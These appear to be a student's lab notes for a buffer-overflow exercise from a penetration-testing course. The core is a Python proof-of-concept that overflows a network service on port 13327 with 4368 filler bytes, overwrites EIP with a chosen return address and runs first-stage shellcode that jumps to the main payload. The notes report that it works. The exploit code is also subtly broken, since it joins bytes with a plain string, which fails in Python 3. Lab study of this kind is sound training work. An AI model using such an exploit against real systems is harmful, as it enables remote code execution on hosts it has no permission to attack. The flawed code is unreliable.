



### 12.6.1.1 Exercises
#### 1. Find a suitable assembly instruction address for the exploit using EDB.



#### 2. Include the first stage shellcode and return address instruction in your proof-of-concept and ensure that the first stage shellcode is working as expected by single stepping through it in the debugger.

- PoC code:

  ```python
  #!/usr/bin/python3
  import socket
  host = "192.168.216.44"
  eip = b"\x96\x45\x13\x08"
  crash = b"\x41" * 4368
  first_stage = b"\x83\xc0\x0c\xff\xe0\x90\x90"
  buffer = b"\x11(setup sound " + crash + eip + first_stage +"\x90\x00#"
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  print ("[*]Sending evil buffer...")
  s.connect((host, 13327))
  print (s.recv(1024))
  s.send(buffer)
  s.close()
  print ("[*]Payload Sent !")
  ```

- First stage executes successfully
  

- Lands us at the beginning of our payload
  

